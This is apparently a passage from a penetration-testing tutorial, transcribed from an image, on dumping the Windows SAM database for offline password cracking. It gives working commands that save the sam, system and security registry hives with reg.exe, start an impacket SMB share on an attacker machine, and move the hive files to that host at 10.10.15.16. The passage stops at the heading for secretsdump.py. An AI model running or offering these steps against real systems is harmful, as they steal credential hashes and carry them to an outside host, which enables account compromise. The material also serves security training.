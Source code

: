 ### Dumping SAM Database for Offline Hash Cracking

When accessing a non-domain joined Windows system with local admin rights, dumping the SAM (Security Accounts Manager) database files allows you to crack password hashes offline. This ensures you can continue attacks without maintaining an active connection to the target system.

#### Copying SAM Registry Hives

To dump and crack hashes, three specific registry hives should be copied, each serving a different purpose:

| **Registry Hive**    | **Description** |
|----------------------|-----------------|
| **hklm\sam**         | Contains local account password hashes. These hashes are needed for cracking user account passwords in cleartext. |
| **hklm\system**      | Holds the system bootkey, used to encrypt the SAM database. This key is necessary to decrypt the SAM data. |
| **hklm\security**    | Stores cached credentials for domain accounts, useful on domain-joined systems. |

Backups of these hives can be created using the `reg.exe` utility.
#### Using reg.exe save to Copy Registry Hives

Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```
#### Creating a Share with smbserver.py
```shell-session
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
#### Moving Hive Copies to Share
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
## Dumping Hashes with Impacket's secretsdump.py
#### Locating secretsdump.py